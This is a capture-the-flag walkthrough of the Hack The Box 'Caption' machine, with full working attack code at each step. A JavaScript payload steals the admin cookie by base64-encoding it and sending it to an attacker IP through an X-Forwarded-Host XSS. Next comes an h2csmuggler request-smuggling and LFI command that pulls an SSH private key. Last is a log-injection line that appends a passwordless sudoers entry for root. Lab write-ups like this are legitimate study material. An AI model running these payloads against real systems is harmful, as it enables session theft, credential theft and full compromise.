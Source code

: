 Walkthrough of Caption (Dec-27-2024)
(Post the unintenional route fix, I skip all the uneeded things I did)

We start of by running an nmap scan on `10.10.11.33`. The scan shows port 8080 open. Navigating on caption.htb:8080, we see a GitBucket service, and we are able to access the commits made by root.
On one of the commits, we can see hard-coded credentials for the user `margo`. Going back to the main website on caption.htb, we can log in with those credentials.

#Getting the admin cookie

The exploit is on the /firewalls page. I used Burspuite to execute it. We start of by fuzzing for potential headers, and we found that the header X-Forwarded-Host returns a different response, thus making it
vulenrable. Upon testing for XSS, we find out that it is vulnerable to it. The exploit is found at the `utm_source?url=...` that we can see in the Burpsuite response. If we open a Python HTTP Server, we see that
it successfully reaches back to us, so now we can craft a payload that returns the admin cookie.

This is the payload.js:
```
async function getData() {
        var string = document.cookie;
        var encodedString = btoa(string);
        var url = 'http://10.10.16.37/hello?str=' + encodedString
        fetch(url).then(function(response) {
                return;
        }).catch(function(err) {
                return;
        });
}

getData();
```

Then we do `cat payload.js | base64 | tr -d '\n'; echo` to convert it to base64, and it should be something like that:
```
YXN5bmMgZnVuY3Rpb24gZ2V0RGF0YSgpIHsKCXZhciBzdHJpbmcgPSBkb2N1bWVudC5jb29raWU7Cgl2YXIgZW5jb2RlZFN0cmluZyA9IGJ0b2Eoc3RyaW5nKTsKCXZhciB1cmwgPSAnaHR0cDovLzEwLjEwLjE2LjM3L2hlbGxvP3N0cj0nICsgZW5jb2RlZFN0cmluZwoJZmV0Y2godXJsKS50aGVuKGZ1bmN0aW9uKHJlc3BvbnNlKSB7CgkJcmV0dXJuOwoJfSkuY2F0Y2goZnVuY3Rpb24oZXJyKSB7CgkJcmV0dXJuOwoJfSk7Cn0KCmdldERhdGEoKTsK
```

The exploit should look something like this:
```
X-FORWARDED-HOST: "></script><script>eval(atob(/YXN5bmMgZnVuY3Rpb24gZ2V0RGF0YSgpIHsKCXZhciBzdHJpbmcgPSBkb2N1bWVudC5jb29raWU7Cgl2YXIgZW5jb2RlZFN0cmluZyA9IGJ0b2Eoc3RyaW5nKTsKCXZhciB1cmwgPSAnaHR0cDovLzEwLjEwLjE2LjYxOjgwL2hlbGxvP3N0cj0nICsgZW5jb2RlZFN0cmluZwoJZmV0Y2godXJsKS50aGVuKGZ1bmN0aW9uKHJlc3BvbnNlKSB7CgkJcmV0dXJuOwoJfSkuY2F0Y2goZnVuY3Rpb24oZXJyKSB7CgkJcmV0dXJuOwoJfSk7Cn0KCmdldERhdGEoKTsK/.source));</script><script src="
```
If we start a local HTTP Server and refresh the page a couple of times, we get the admin cookie in base64 format and to decode it we run `echo "admin cookie" | base64 -d`

#HTTP smuggling

Logs are still not accessible, but it is hinted that we can perform HTTP smuggling in order to access it.
I used a Python tool called `h2csmuggler`. In the server, there is a .cpr directory. This directory holds an LFI exploit, and the paylod is as follows:
```
python3 h2csmuggler.py -H "Cookie: session=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiZXhwIjoxNzM1MjE4NzUyfQ.d4-wtGXYkoY69q2ZsDfG0u5asuW35hH6d-rLuRW69Y0" -X GET -x http://caption.htb/ http://caption.htb/download?url=http://127.0.0.1:3923/.cpr/%252Fhome%252Fmargo%252F.ssh%252Fid_ecdsa
```
We can use this to download the `id_ecdsa` private key in order to log into margo with SSH.
```
chmod 600 id_ecdsa
ssh -i id_ecdsa margo@caption.htb
```
Now we can grab the user flag.

#Escalating to root

If we check on the GitBucket service again, we see a LogService repo, and if we check inside server.go we see a block of code that hints at command injection. The server executes as root logs. If we do
`ps aux | grep server.gp` we can see it's executed as root. With the help of our powerful tool ChatGPT and a couple other fellow users, I was able to craft the exploit to get root.
Below are the steps.
In the host PC:

```
cd /tmp
touch client.py
touch log_service.thrift
```
(sudo apt install thrift-compiler and also make a virtual env in python and install any needed packages)
client.py:
```py
import sys
sys.path.append('/tmp/gen-py')

from thrift.transport import TSocket
from thrift.transport import TTransport
from thrift.protocol import TBinaryProtocol
from log_service import LogService

# Create a connection to the Thrift service
transport = TSocket.TSocket("127.0.0.1", 9090)
transport = TTransport.TBufferedTransport(transport)
protocol = TBinaryProtocol.TBinaryProtocol(transport)
client = LogService.Client(protocol)

# Open the connection
transport.open()

# Call the vulnerable function
try:
    result = client.ReadLogFile("/tmp/malicious.log")
    print("Response from server:", result)
except Exception as e:
    print("Error:", e)

# Close the connection
transport.close()
```
log_service.thrift
```
namespace go log_service
namespace py log_service
     
service LogService {
    string ReadLogFile(1: string filePath)
}
```
In margo's /tmp directory inside a file called `malicious.log`:
`127.0.0.1, "user-agent":"Mozilla'; echo 'margo ALL=(ALL) NOPASSWD:ALL' >> /etc/sudoers;#"`
That is then executed by the Python script. The log file adds the user `margo` to the /etc/sudoers file with no password, so now `margo` can do `sudo su` without
a password. Doing this switches the user to root, and then we can get the root flag.

Personal note: search for tools, in this case there was a tool `h2csmuggler` that another user told me I could take advantage of instead of manually doing the HTTP smuggling in Burpsuite.
